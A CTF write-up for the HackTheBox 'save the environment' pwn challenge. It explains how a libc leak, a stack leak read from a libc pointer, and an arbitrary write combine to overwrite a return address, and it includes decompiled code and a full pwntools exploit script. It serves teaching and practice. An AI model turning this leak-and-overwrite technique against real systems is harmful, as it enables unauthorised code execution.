



## Hackthebox Cyberapocalypse CTF: save the environment [pwn]


## challenge information
#### probably my favorite challenge of this ctf. pwning it was very simple, but it was a fun process nonetheless. we had a binary with all protections on except PIE, and the libc to accompany it. Running the binary presented us with a fancy blinking tree ascii art and the option to plant or recycle. 

## plant 🌱
#### Similar to the minefield challenge, here we have another write primitive but this time it won't be so easy as last time since the binary is running on FULL RELRO. 
```c
  check_fun(rec_count);
  color(&DAT_00401a58,"green");
  printf("> ");
  read(0,local_48,0x10);
  pointer = (ulonglong *)strtoull(local_48,(char **)0x0,0);
  putchar(10);
  color("Where do you want to plant?\n1. City\n2. Forest\n","green");
  printf("> ");
  read(0,local_28,0x10);
  puts("Thanks a lot for your contribution!");
  data = strtoull(local_28,(char **)0x0,0);
  *pointer = data;
  rec_count = 0x16;
```
#### It also sets the value of rec_count to 0x16, from its original value 0x0. This detail will be important later.

## recycle
#### calls another function named `form` and it's where we should set our sights on. What follows is the important bits of the aforementioned function.
```c
  if (((char)prompt == 'n') || ((char)prompt == 'N')) {
    rec_count = rec_count + 1;
  }
  if (rec_count < 5) {
    color("Thank you very much for participating in the recycling program!\n","magenta");
  }
  else {
    if (rec_count < 10) {
      color("You have already recycled at least 5 times! Please accept this gift: ","magenta");
      printf("[%p]\n",printf);
    }
    else {
      if (rec_count == 10) {
        color("You have recycled 10 times! Feel free to ask me whatever you want.\n> ",&DAT_00401768
             );
        read(0,pointer,0x10);
        __s = (char *)strtoull(pointer,(char **)0x0,0);
        puts(__s);
      }
    }
  }
```
#### Based on how many times we have recycled, we get a different code flow. Recycling for 5 times gives us a printf libc leak and recycling for 10 times allows us to read a value from an arbitrary address that we provide. We also have a `hidden_resources` function which prints the flag again for us. 

## stack leak from libc pointers
#### Since we have no clear way to overwrite control flow such as a buffer overflow, we need to rely on the arbitrary write. In order to get code execution, we need to overwrite a return address that is on the stack. But how can we do that if we don't have a stack leak?


#### We can use the arbitrary read but what do we read from? While debugging and examining the stack after a breakpoint, I noticed a pointer which points to an argv value on the stack. Searching references to this pointer returned a result which showed that it is also referenced in libc. We can now leak this value since we already had a libc leak beforehand in order to calculate stack offsets which are constant despite PIE and ASLR. With this, we can just overwrite a return address on the stack using the arbitrary write on `plant()` and point it to the location of `hidden_resources`



##### exploit script
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./environment', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./environment')
p = process('./environment', env = {'LD_PRELOAD' : libc.path})
#p = remote("46.101.22.121", 30905)

#: GDB SETTINGS
breakpoints = ['break *plant + 279', 'break *form + 338']
gdb.attach(p, gdbscript = '\n'.join(breakpoints))
#gdb.attach(p)

#: EXPLOIT INTERACTION STUFF
def recycle(pointer = 0x69, arb_read = False):
	
	p.sendline('2')
	p.sendlineafter(b'> ', '2')
	p.sendlineafter(b'> ', 'n')

	if arb_read:
		p.sendlineafter(b'> ', str(pointer))
		return p.recvuntil(b'> ')

	return p.recvuntil(b'> ')

def plant(pointer, content):

	p.sendline('1')
	p.sendlineafter(b'> ', str(pointer))
	p.sendlineafter(b'> ', str(content))
	#p.recvuntil(b'> ')

#: PWN THY VULNS
p.recvuntil(b'> ')

for i in range(4):
	recycle()

printf_leak = int(recycle().split(b'\n')[1].split(b'[')[-1][:-1], 16)
libc.address = printf_leak - libc.sym.printf
log.info(hex(printf_leak))
log.info(hex(libc.address))
log.info(hex(libc.address + 0x3f05a0))

for i in range(4):
	recycle()
stack_leak = u64(recycle(pointer = libc.address + 0x3f05a0, arb_read = True).split(b'0m')[1].split(b'\n')[0].ljust(8, b'\x00'))
log.info(hex(stack_leak))

plant(stack_leak - 0x110, binary.sym.hidden_resources)
p.interactive()
```